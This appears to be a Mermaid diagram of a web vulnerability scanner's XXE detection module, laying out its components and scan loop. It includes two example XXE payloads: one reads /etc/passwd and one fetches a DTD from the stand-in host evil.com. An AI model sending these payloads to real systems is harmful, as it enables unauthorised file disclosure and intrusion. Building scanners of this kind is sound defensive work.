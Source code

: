 graph TD
    %% Main components definition
    CoreScanner["Core Scanner<br>Coordinates all scanners"]
    Target["Target<br>Website with endpoints"]
    BaseScanner["BaseScanner<br>Abstract scanner class"]
    XmlScanner["XmlInjectionScanner<br>Specialized for XXE detection"]
    Endpoint["Endpoints<br>XML processing APIs"]
    
    %% Component relationships
    CoreScanner -->|instantiates| BaseScanner
    BaseScanner -.->|inherited by| XmlScanner
    CoreScanner -->|scans| Target
    Target -->|contains| Endpoint
    XmlScanner -->|tests with payloads| Endpoint
    
    %% Scanning workflow
    start([Start Scan])
    initScanners["Initialize Scanners"]
    createTarget["Create Target from URL"]
    discoverURLs["Discover XML Endpoints"]
    runXMLScanner["Run XmlInjectionScanner"]
    filterXML["Filter XML Endpoints"]
    prepPayloads["Prepare XXE Payloads"]
    loopPayloads{"For Each Payload"}
    sendRequest["Send XML Request"]
    analyzeResponse["Analyze Response"]
    logVuln["Log Vulnerability"]
    collectResults["Collect Results"]
    endScan([End Scan])
    
    start --> initScanners
    initScanners --> createTarget
    createTarget --> discoverURLs
    discoverURLs --> runXMLScanner
    runXMLScanner --> filterXML
    filterXML --> prepPayloads
    prepPayloads --> loopPayloads
    loopPayloads -->|payload| sendRequest
    sendRequest --> analyzeResponse
    analyzeResponse --> logVuln
    logVuln --> loopPayloads
    loopPayloads -->|done| collectResults
    collectResults --> endScan
      %% XXE Payloads
    subgraph "XXE Payload Examples"
        payload1["&lt;!DOCTYPE test [&lt;!ENTITY xxe SYSTEM &quot;file:///etc/passwd&quot;&gt;]&gt;&lt;test&gt;&amp;xxe;&lt;/test&gt;"]
        payload2["&lt;?xml version=&quot;1.0&quot;?&gt;&lt;!DOCTYPE foo [&lt;!ENTITY % xxe SYSTEM &quot;http://evil.com/evil.dtd&quot;&gt;%xxe;]&gt;"]
    end
    
    %% Vulnerability detection
    subgraph "XXE Detection Process"
        step1["1. Identify XML endpoints with POST methods"]
        step2["2. Send malicious XXE payloads"]
        step3["3. Check for file content exposure"]
        step4["4. Check for error patterns"]
        step5["5. Create vulnerability reports"]
        
        step1 --> step2 --> step3 --> step4 --> step5
    end
    
    %% Styling
    classDef component fill:#e1d5e7,stroke:#9673a6,stroke-width:2px;
    classDef process fill:#dae8fc,stroke:#6c8ebf,stroke-width:1px;
    classDef payload fill:#fff2cc,stroke:#d6b656,stroke-width:1px;
    classDef detection fill:#f8cecc,stroke:#b85450,stroke-width:1px;
    classDef endpoint fill:#d5e8d4,stroke:#82b366,stroke-width:1px;
    classDef control fill:#ffe6cc,stroke:#d79b00,stroke-width:1px;
    
    class CoreScanner,BaseScanner,XmlScanner component;
    class Target,Endpoint endpoint;
    class start,endScan control;
    class initScanners,createTarget,discoverURLs,runXMLScanner,filterXML,prepPayloads,sendRequest,analyzeResponse,logVuln,collectResults process;
    class loopPayloads control;
    class payload1,payload2 payload;
    class step1,step2,step3,step4,step5 detection;